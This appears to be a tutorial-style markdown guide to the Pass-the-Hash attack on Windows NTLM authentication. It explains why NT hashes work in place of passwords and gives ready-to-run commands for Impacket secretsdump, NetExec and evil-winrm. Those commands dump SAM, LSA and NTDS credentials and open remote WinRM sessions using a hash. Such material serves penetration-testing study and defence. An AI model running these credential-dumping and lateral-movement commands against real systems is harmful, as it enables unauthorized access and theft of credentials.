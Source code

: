 # Pass the Hash (PtH) Attack Guide

## What is Pass the Hash?

**Pass the Hash (PtH)** is a technique where an attacker uses the **NT hash** of a user's password to authenticate to services without needing the plaintext password. This works because NTLM (Windows authentication protocol) accepts the hash itself for login.

> An attacker doesn't need to crack the password — just knowing the hash is enough to impersonate the user!

##  Theory Behind PtH

- NTLM authentication relies on a challenge-response mechanism using the NT hash.
- If an attacker gets the hash, they can "pass" it to remote systems and authenticate as that user.
- It's commonly used in post-exploitation stages to move laterally or dump more credentials.


## Practice

The Impacket script secretsdump has the ability to remotely dump hashes and LSA secrets from a machine (LMhash can be empty).

```
secretsdump.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
```
```
secretsdump.py -hashes ':NThash' 'DOMAIN/USER@TARGET'
```
```
secretsdump.py 'DOMAIN/USER:PASSWORD@TARGET'
```

NetExec (Python) has the ability to do it on a set of targets. The bh_owned has the ability to set targets as "owned" in BloodHound (see dumping credentials from registry hives).

```
netexec smb $TARGETS -u $USER -H $NThash --sam --local-auth
```
```
netexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash --lsa
```
```
netexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash --ntds
```


### Example of WinRM and Pass-the-Hash?

**WinRM (Windows Remote Management)** is a Microsoft protocol that allows remote command execution using PowerShell. It’s commonly used in system administration.

When **Pass-the-Hash (PtH)** is combined with WinRM, it allows an attacker to authenticate with just an **NTLM hash**, without knowing the actual password — **as long as the target is configured to allow local admin access via WinRM.**

---

###  Why It Works

When you run `Enable-PSRemoting` on a Windows system:
- It **enables WinRM**
- It **sets `LocalAccountTokenFilterPolicy = 1`**, which:
  - Lets **local admin accounts** log in remotely
  - Removes the usual token filtering for non-domain users
  - **Allows PtH with local admin accounts**

---

###  Example: Using `evil-winrm` to Pass the Hash

Suppose you have the following:

- **Target IP:** `192.168.129.140`  
- **Username:** `jack` (local admin)  
- **NTLM hash:** `f26db8968d8e6c0790978baaaaaaaaaa`

You can use the `evil-winrm` tool like this:

```bash
evil-winrm -i 192.168.129.140 -u jack -H f26db8968d8e6c0790978baaaaaaaaaa
```

 **Note:** No password needed — just the NT hash!

---

### Point:

**Pass-the-Hash (PtH)** depends on the **NTLM hash** — specifically the **NT hash**, *not* the LM hash.

---

###  Hash Types in Windows Authentication

| Type     | Used in PtH? | Description                            |
|----------|--------------|----------------------------------------|
| **NT Hash** | ✅ Yes       | Modern hash of the password (MD4 of Unicode) |
| **LM Hash** | ❌ No        | Legacy hash, weak and often disabled   |

---

###  Why NT Hash?

- When using PtH, tools like `evil-winrm`, `psexec.py`, `wmiexec.py`, etc. send the **NT hash** in the NTLM authentication process — **mimicking** the real password.
- Windows systems accept the hash if the user has the correct privileges.

---

